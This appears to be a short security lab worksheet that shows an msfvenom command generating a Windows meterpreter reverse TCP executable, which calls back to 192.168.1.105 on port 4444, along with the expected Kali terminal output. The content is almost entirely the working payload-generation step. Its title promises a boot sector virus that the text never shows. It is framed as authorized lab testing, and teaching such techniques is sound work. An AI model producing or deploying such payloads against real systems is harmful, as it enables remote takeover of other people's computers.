

# Lab 20: Implement the Boot Sector Virus / Payload (msfvenom)

## Commands / Code

```bash
# Generate a Windows reverse TCP payload using msfvenom (for authorized lab testing only)
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.105 LPORT=4444 -f exe -o payload.exe
```

## Expected Output

```text
┌──(kali㉿kali)-[~/lab20]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.105 LPORT=4444 -f exe -o payload.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: payload.exe
```

## Output Image


